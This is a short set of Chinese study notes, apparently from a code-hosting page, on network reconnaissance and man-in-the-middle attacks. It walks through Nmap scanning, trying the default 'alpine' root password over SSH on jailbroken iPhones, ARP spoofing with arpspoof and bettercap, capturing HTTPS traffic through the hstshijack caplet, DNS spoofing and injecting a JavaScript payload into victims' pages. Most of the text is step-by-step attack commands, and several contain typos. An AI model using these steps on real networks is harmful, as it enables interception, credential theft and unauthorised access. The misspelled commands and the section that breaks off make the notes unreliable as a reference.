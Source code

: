 ## 信息搜集和中间人攻击
### 2.1 Zenmap&Nmap
使用zenmap的quick scan plus，可以获取网络中的设备，运行的操作系统，开放的端口，端口运行的软件。从而可以搜索对应软件存在的漏洞进行攻击。
例子：Iphone越狱后会开启22端口，可以远程ssh登录。root的默认密码是alpine，值得一试。

###2.2 ARP spoof(ARP poision)
ARP欺骗，中间人攻击
因为ARP没有安全检验机制
使用arpspoof让目标机器以为攻击者的机器是路由器，让路由器以为攻击者的机器是目标机器。
先开启流量转发：

		echo 1 >> /proc/sys/net/ipv4/ip_forward
		命令：arpspoof -i 网卡名 -t 目标机器IP 让目标机器认为我们是谁的IP
		arp -a查看本地的arp表

###2.3 bettercap 中间人攻击
也可用于arp欺骗，功能比arpspoof强大
命令：

	bettercap -itface wlan0
	 进入之后的命令：
	help帮助，能查看运行的模块
	net.probe给同一网段的设备发UDP请求
	，搜集设备信息，会自动开启net.recon
	查看搜集的结果：net.show
	开启arp欺骗：
	- set arp.spoof.fulduplex  true #让目标机器和路由器都认为我是中间人
	- set arp.spoof.targets 1.0.2.15 #目标机器
	- arp.spoof on
	-ney.sniff on开启监听，可以捕获所有的请求(吊爆了)

可以把以上命令都写入脚本

	bettercap -itface wlan0 caplet xxxxx.cap
上述命令只能捕获未加密的HTTP请求，想获得HTTPS的信息，需要额外的步骤：

	1. 下载htshjack解压到/usr/share/bettercap/caplets
	2. 脚本中，在开始sniff前增加
	set net.sniff.local true
	3.运行脚本即可开始捕获(吊爆了)

###2.4 部分解决hsts问题
hsts：一部分网页

### 2.5 DNS欺骗
	1.先执行上述脚本，开启相关模块
	2. set dns.spoof.domain xxx 设置想要查访问的人骗到xxx去，不设置的话默认是网卡地址
	3.set dns.spoof.all true 是否把所有请求都骗过去
	set dns.spoof.domains xxx,xxx逗号分割的域名，访问xxx时会欺骗
	4.dns.spoof.on
	注入javascript脚本：
	1.同上，执行脚本，启动相关服务
	2.把js代码保存到foo.js
	3.打开hstshijack模块，修改hijack.cap
	4.在set hstshijack.payloads 之后增加*:/path/to/foo.js
	5.运行hijack模块: hstshijack/hstshijack
